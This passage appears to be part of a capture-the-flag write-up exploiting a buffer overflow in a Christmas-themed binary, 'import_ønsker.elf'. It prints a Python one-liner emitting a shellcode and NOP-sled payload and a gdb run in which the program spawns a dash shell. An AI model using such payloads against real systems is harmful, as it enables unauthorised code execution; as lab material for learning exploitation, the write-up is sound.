 This gives the output:
```
$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd9\xb7\xa2\xcd\x48\xfe\x6f\x6f\x33\x28\xff\x6f\x22\x29\x2e\x11\x16\x17\xcd\x5c\x64\xf0\x4b\x8d\xc0\xd0\xd0\xd0\xd0\xd0\xd0\xd0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x60\xdd\xff\xff")')
```

Running it in gdb grants us a shell:
```
<0\xd0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x60\xdd\xff\xff")')
Starting program: /home/storenisse/import_ønsker.elf $(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd9\xb7\xa2\xcd\x48\xfe\x6f\x6f\x33\x28\xff\x6f\x22\x29\x2e\x11\x16\x17\xcd\x5c\x64\xf0\x4b\x8d\xc0\xd0\xd0\xd0\xd0\xd0\xd0\xd0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x60\xdd\xff\xff")')
:: Import af ønsker - Copyright (c) 2020 Nisseværkstedet
.................................................................>
process 1474276 is executing new program: /usr/bin/dash
$
```
